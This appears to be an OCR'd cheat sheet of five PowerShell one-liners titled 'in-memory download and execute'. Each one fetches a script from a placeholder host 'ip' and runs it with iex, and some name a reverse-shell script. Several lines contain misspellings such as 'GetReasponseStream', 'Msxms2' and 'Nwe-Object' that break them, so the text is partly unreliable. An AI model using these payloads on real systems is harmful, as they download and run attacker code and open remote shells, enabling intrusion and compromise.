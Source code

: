 ## POWERSHELL IN-MEMORY DOWNLOAD AND EXECUTE:  
1) iex(iwr'http://ip/file.ps1')  
2) $down=[System.NET.WebRequest]::Create("http://ip/file.ps1"); $read=$down.GetResponse(); IEX([System.IO.StreamReader]($read.GetReasponseStream())).ReadToEnd()  
3) $file=New-Object -ComObject Msxms2.XMLHTTP;$file.open('GET','http://ip/file.ps1',$false);$file.send();iex $file.responseText  
4) iex(New-Object Net.WebClient).DownloadString('http://ip/reverse.ps1')  
5) $ie=Nwe-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://ip/reverse.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response  


